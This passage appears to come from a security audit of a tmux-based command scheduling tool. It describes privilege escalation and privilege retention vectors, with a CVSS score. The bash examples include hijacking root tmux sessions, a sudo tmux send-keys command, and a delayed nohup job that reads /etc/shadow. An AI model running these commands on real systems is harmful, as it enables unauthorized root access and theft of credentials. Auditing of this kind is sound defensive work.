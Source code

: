 **Technical Details:**
The system enables direct privilege escalation through tmux session hijacking, a well-documented attack vector:

**Exploitation Pathways:**
1. **Root Session Attachment:**
   ```bash
   # Check for existing sessions
   tmux list-sessions
   
   # Attach to root session
   tmux attach-session -t root_session
   ```

2. **Sudo-based Tmux Privilege Escalation:**
   ```bash
   # If user has sudo rights for tmux
   sudo tmux new-session -d -s root_session
   sudo tmux send-keys -t root_session "whoami" Enter
   ```

3. **Background Process Privilege Escalation:**
   ```bash
   # Schedule privileged commands via nohup
   nohup bash -c "sleep 60 && sudo tmux send-keys -t target 'cat /etc/shadow' Enter" &
   ```

**Attack Prerequisites:**
- Local access to system
- Existing tmux sessions with elevated privileges
- Sudo rights for tmux execution (common misconfiguration)

**Impact:**
- Full system compromise with root privileges
- Access to sensitive system files
- Ability to modify system configuration
- Persistent privileged access

### 2.2 Background Process Privilege Retention

**Attack Vector ID:** AV-PE-002  
**Severity:** HIGH  
**CVSS Score:** 8.4 (AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
**Exploitability:** Easy

**Technical Details:**
The `schedule_with_note.sh` script creates persistent background processes that retain privileges:

```bash
nohup bash -c "sleep $SECONDS && tmux send-keys -t $TARGET 'command' && sleep 1 && tmux send-keys -t $TARGET Enter" > /dev/null 2>&1 &
```

**Exploitation Pathways:**
1. **Long-term Privilege Retention:**
   ```bash
   # Schedule privileged command far in the future
   ./schedule_with_note.sh 999999 "privilege_escalation_payload" root_session:0
   ```
